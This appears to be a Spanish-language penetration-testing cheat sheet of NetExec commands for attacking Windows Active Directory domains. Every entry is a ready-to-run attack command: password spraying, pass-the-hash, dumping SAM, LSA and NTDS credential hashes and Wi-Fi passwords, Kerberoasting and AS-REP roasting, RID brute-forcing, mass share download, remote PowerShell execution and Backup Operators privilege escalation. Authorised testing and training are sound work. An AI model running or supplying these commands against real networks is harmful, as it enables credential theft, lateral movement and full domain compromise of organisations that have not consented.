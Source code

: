 ### Listar equipos dentro de la red de un AD:
$ netexec smb 192.168.1.0/24
### SMB con credenciales a dominio WORKGROUP:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' -d WORKGROUP
### SMB con credenciales y especificando a un puerto:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --port {PORT}
### Password Spraying:
$ netexec smb 192.168.1.0/24 -u 'USERNAME' -p listpassword.txt | grep +
### Spraying Attack con usuario y contraseña:
$ netexec smb {IP} -u users.txt -p passwd.txt
### Spraying Attack usando HashNTLM:
$ netexec smb {IP} -u users.txt -H 'HASH-NTLM'
### Conocer en que equipos se puede autenticar especificando un usuario y password:
$ netexec smb 192.168.1.0/24 -u 'USERNAME' -p 'PASSWORD'
### Spraying Attack con usuario y contraseña lineal:
$ netexec smb {IP} -u users.txt -p passwd.txt --no-bruteforce --continue-on-success
### Enumeración de directorios compartidos SMB con NULL session:
$ netexec smb {IP} -u '' -p ''
$ netexec smb {IP} -u 'a' -p ''
### Enumeración de directorios compartidos SMB con NULL session:
$ netexec smb {IP} -u 'null' -p '' --shares
### Enumeración de directorios compartidos SMB y mostrar datos y archivos en un archivo JSON que guarda sobre los archivos compartidos con acceso de lectura:
$ netexec smb {IP} -u 'null' -p '' -M spider_plus
### Descargar un archivo de un directorio compartido:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --share {DIRECTORY-NAME} --get-file {FILE-NAME} {OUTPUT-NAME}
### Descargar todos los archivos que contenga el servidor:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' -M spider_plus -o DOWLOAD_FLAG=True
### Enviar un archivo de un directorio compartido:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --put-file FILENAME \\Windows\\Temp\\{OUTPUT-NAME}
### Enumeración de los usuarios del Directorio Activo:
$ netexec smb {IP} -u 'USERNAME' -P 'PASSWORD' --users
### Enumeración de los grupos del Directorio Activo:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --groups
### Comprobar a que grupo pertenece nuestro usuario:
$ netexec ldap {IP} -u 'USERNAME' -p 'PASSWORD' -M groupmembership -o USER="USERNAME"
### Enumeración de los usuarios logueados actualmente:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --loggedon-users
### Enumeración de los grupos locales:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --local-group
### PassTheHash:
$ netexec smb {IP} -u 'USERNAME' -H 'HASH' --local-auth
### Dumping Hashes SAM:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --sam
### Dumping Hashes LSA:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --lsa
### Dumping Hashes NTDS:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --ntds
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --ntds vss
### Obtener la politica de contraseñas del AD:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' --pass-pol
### Dumping WIFI Password:
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' -M wireless
### Obtener las descripciones de los usuarios de LDAP:
$ netexec ldap {IP} -u 'USERNAME' -p 'PASSWORD' -M get-desc-users
### Enumeración de usuarios (Fuerza Bruta) por RID (RID Cycling Attack):
$ netexec smb {IP} -u 'guest' -p '' --rid-brute
### Ataque de Kerberoasting:
$ netexec ldap {IP} -u 'USERNAME' -p 'PASSWORD' --kerberoasting {OUTPUT-FILE}
### Ataque de Asreproast:
$ netexec ldap {IP} -u 'USERNAME' -p 'PASSWORD' --asreproast {OUTPUT-FILE}
### Ejecutar comando Powershell:
$ netexec winrm {IP} -u 'USERNAME' -p 'PASSWORD' -C 'COMMAND'
### Elevar Privilegios cuando el usuario pertenece al grupo "Backup Operators":
$ netexec smb {IP} -u 'USERNAME' -p 'PASSWORD' -M backup_operator